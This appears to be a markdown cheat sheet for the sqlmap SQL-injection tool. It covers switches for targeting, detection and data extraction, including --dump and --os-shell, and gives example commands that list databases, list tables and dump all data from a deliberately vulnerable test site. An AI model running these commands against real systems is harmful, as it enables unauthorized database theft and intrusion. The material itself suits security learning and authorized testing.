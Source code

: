 # sqlmap


- [Basic Commands](#Basic)
- [Key Commands](#Key)

<h2 id="Basic">Basic Commands</h2>

 - Targeting:
   
|Switches | Details |
|---|---|
| -u    | Target URL to scan |
| -g    | Scan via Google search |


- Detection and Techniques:
  
|Switches | Details |
|---|---|
|--level=LEVEL | Level of tests to perform (1-5, default 1) |
| --risk=RISK | Risk of tests to perform (1-3, default 1) |
| --technique=TECH | SQL injection techniques to use (default "BEUSTQ") |

- Request Settings:
  
|Switches | Details |
|---|---|
| -p    | Specify parameter(s) to test |
| -r    | Load HTTP request from a file |
| --dbs | Extract database names |
| --data=DATA | POST data to send |
| --random-agent | Use a random HTTP User-Agent header |
| --proxy=PROXY | Use a proxy server |

<h2 id="Key">Key Commands</h2>

|Switches | Details |
|---|---|
| --dbs | List databases |
| --columns | List columns |
| --tables | List tables |
| --dump | Dump table data |
| --os-shell | Gain OS shell access |
| -D    | Select a database |


Example:

- Note : It is a test site.

1.List of Databases:
```bash
sqlmap -u http://testphp.vulnweb.com/product.php?pic=1 --dbs
```

<img width="1500" height="500" src="sqlmap/1.png" alt="Awesome">
 
1. List tables in the acuart database:
```bash
   sqlmap -u http://testphp.vulnweb.com/product.php?pic=1 -D acuart --tables  
```
<img width="1500" height="500" src="sqlmap/2.png" alt="Awesome">

2. Dump all data from the acuart database:
```bash
   sqlmap -u http://testphp.vulnweb.com/product.php?pic=1 -D acuart --dump-all  
```
<img width="1500" height="500" src="sqlmap/3.png" alt="Awesome">
<img width="1500" height="500" src="sqlmap/4.png" alt="Awesome">

